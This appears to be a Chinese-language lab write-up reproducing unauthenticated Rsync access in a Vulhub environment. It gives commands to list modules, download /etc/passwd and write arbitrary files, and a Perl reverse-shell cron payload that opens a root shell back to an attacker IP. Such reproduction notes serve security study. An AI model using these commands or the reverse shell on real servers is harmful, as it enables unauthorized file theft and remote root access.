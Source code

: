 # Rsync 未授权访问漏洞

## 漏洞描述

Rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

## 环境搭建

Vulhub编译及运行Rsync服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，可以使用Rsync命令访问：

```
rsync rsync://your-ip:873/
```

![image-20220303133847165](images/202203031338267.png)

> 若Vulhub环境启动时报错`standard_init_linux.go:211: exec user process caused "no such file or directory"`，执行命令 `dos2unix docker-entrypoint.sh`，即可成功启动。

## 漏洞复现

访问建立后，可以查看模块名列表，有一个src模块，我们再列出这个模块下的文件：

```
rsync rsync://your-ip:873/src/
```

这是一个Linux根目录，我们可以下载任意文件：

```
rsync -av rsync://your-ip:873/src/etc/passwd ./
```

或者写入任意文件：

```
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

### 反弹shell

写入cron任务反弹shell。

shell文件内容如下：

```
# 此处指定用户root不可省略
* * * * * root perl -e 'use Socket;$i="192.168.174.128";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

上传shell文件触发反弹shell：

```
rsync -av shell rsync://192.168.174.128:873/src/etc/cron.d/shell
```

![image-20220303140727513](images/202203031407618.png)



